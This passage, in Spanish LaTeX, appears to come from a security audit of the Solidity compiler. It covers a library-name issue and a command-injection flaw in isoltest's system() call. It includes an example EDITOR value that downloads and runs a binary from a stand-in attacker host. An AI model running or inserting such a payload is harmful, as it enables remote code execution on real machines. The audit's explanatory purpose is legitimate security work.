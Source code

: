 Se recomendó considerar remover el tamaño máximo de nombre de librería por completo, o rediseñar la implementación para que permite utilizar librerías con nombres largos.\\

\textbf{Actualidad:} Existen \textit{issues} abiertos previos al respecto, \textbf{\#579}\cite{GHI579}, \textbf{\#3918}\cite{GHI3918} y \textbf{\#4429}\cite{GHI4429}. El equipo de Solidity respondió \textit{``Esta función no está aconsejada, los usuarios deben usar el json estándar que genera las referencias de enlace. Esto es sólo un problema en la interfaz en desuso del compilador"}. Solucionado en \textbf{PR\#5145}\cite{GHPR5145}.\\

\subsubsection{Llamadas inseguras al sistema pueden llevar a una ejecución de comandos durante la etapa de testeo.}

Comandos no sanitizados dados como argumentos para llamar a \texttt{system()} (o funciones similares como \texttt{popen()}) pueden permitir a un atacante ejecutar comandos de sistema arbitrarios.\\

El siguiente código de \textbf{isoltest} abre un editor del sistema al encontrar un error mientras testea contratos en Solidity:

\begin{lstlisting}[language=c++, caption=\texttt{/test/tools/isoltest.cpp:236}]
if (system((editor + " \"" + m_path.string() + "\"").c_str()))
  cerr << ``Error running editor command." << endl << endl;
  return Request::Rerun;
\end{lstlisting}

El problema con el código anterior es que la llamada al sistema está hecha sobre una combinación de dos variables, y una de ellas no está propiamente sanitizada. \texttt{m\_path} es el path para el contrato en cuestión pero \texttt{editor} proviene de una variable de entorno, la cual controlada por un atacante puede resultar en una ejecución de comandos.\\

Como un simple ejemplo de cómo esto puede ser explotado, imaginemos el caso en el que un atacante haya accedido de alguna manera a manipular el contenido de la variable de entorno \verb|EDITOR|, y lo haya modificado de la siguiente manera:
\begin{lstlisting}[language=bash, caption={Código de exploit ejemplar}]
    EDITOR='wget http://attacker.site/expl;chmod +x expl;./expl; vim'
\end{lstlisting}

